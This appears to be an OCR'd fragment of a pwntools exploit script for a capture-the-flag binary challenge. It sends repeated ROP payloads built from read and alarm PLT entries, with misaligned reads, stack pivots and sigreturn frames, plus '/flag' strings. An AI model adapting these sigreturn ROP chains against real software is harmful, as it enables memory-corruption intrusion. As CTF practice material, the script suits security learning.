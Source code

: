 ```py

pause()
io.send(b"AAA")
pause()
io.send(b"/flag" + b"\x00"*10)


pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(sig_frame) + p64(mis_aligned_read))

# trigger sigreturn
pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(pivot_2-32-8) + p64(mis_aligned_read))
pause()
io.send(b"AAA")

pause()
io.send(b"/flag" + b"\x00"*10)

pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(pivot_3) + p64(mis_aligned_read))

#trigger sigreturn
pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(pivot_3-32-8) + p64(mis_aligned_read))
pause()
io.send(b"AAA")

pause()
io.send(b"/flag" + b"\x00"*10)

pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(pivot_4) + p64(mis_aligned_read))

#trigger sigreturn
pause()
io.send(p64(exe.plt["read"]) + p64(exe.plt["alarm"]) + p64(mis_aligned_read) + b"A"*8 + p64(pivot_4-32-8) + p64(mis_aligned_read))
pause()
io.send(b"AAA")

pause()
io.send(b"/flag" + b"\x00"*10)

io.interactive()
```
